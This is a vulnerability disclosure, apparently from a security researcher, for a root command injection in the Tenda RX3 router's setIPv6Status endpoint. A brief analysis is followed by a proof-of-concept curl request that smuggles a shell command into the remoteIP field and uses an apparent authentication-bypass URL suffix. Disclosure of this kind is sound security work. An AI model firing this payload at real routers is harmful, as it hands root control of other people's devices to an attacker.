


| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the httpd binary, the function `formSetIPv6status` handles requests to `/goform/setIPv6Status`. The `remoteIP` parameter (for 6in4 tunnel configuration) is stored in NVRAM key `ipv6.tun6in4.remoteip` without sanitization. The `multiWAN` binary later uses this value in `doSystemCmd("ip tunnel add %s mode sit remote %s local %s ttl 255")`, which calls `system()`, allowing arbitrary command execution as root.

This endpoint requires authentication. Combined with the [authentication bypass](../auth_bypass/detail.md), it can be exploited without credentials from the LAN.



## POC

```
curl -i -X POST "http://192.168.0.1/goform/setIPv6Status?reasy-ui-1.0.3.js" -d "IPv6En=1&conType=6in4&remoteIP=1.2.3.4;id>/tmp/pwned&intfIPv6=2001::1/64"
```


